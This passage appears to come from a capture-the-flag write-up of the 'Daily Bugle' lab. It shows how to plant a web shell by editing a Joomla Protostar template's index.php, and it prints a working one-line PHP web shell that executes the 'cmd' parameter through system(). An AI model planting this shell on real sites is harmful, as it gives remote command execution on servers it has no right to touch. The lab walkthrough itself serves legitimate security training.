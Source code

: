 We're in! But now what? Our user is able to edit `php`
files, so we can install our own webshell!

First go to the `Templates` section

![templates](/images/dailybugle/templates.png)

Then find the `Protostar` templates which will have the
`php` files. Next we need to add a web shell. This
[reverse shell generator](https://www.revshells.com/){:target="_blank"}{:rel="noopener noreferrer"}
also has a web shell section

I'll be using this web shell

```php
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
```

Now let's add this to `index.php` and save it

![save webshell](/images/dailybugle/save-webshell.png)
